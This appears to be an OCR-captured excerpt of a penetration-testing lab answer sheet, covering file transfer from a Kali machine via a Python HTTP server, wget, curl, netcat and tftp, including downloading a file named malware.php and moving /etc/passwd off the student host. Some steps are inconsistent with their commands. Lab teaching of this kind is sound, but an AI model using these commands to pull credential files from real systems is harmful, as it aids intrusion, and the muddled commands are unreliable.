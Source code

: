    Then, in the same directory, create a temporary server with Python on port 5000.

   ```sh
   python3 -m http.server 5000
   ```

2. On your Student machine, download the `malware.txt` file with the `wget` command.

   > Your command: `wget http://10.12.181.X:5000/malware.php`

3. On your Student machine, download the `malware.txt` file with the `cURL` command.

   > Your command: `cURL -O http://10.12.181.X:5000/malware.php`

4. On the student machine, create a file named `password.txt` and transfer it to your student machine with `netcat`.

   > Your commands:
   On the Kali machine:
   ```sh
   echo "This is a password file" > password.txt
   nc -lvp 4444 < password.txt
   ```

   On the student machine:
   ```sh
   nc 10.12.181.X 4444 > password.txt
   ```

5. On the student machine, transfer the `/etc/passwd` file to your Kali machine with `tftp`.

   > Your commands:
   On the Kali machine:
   ```sh
   tftp
   tftp> get /etc/passwd
   ```

   On the student machine:
   ```sh
   tftp -g 10.12.181.X
   ```

Please note that some commands may require modifications based on the IP addresses and file paths specific to your network setup.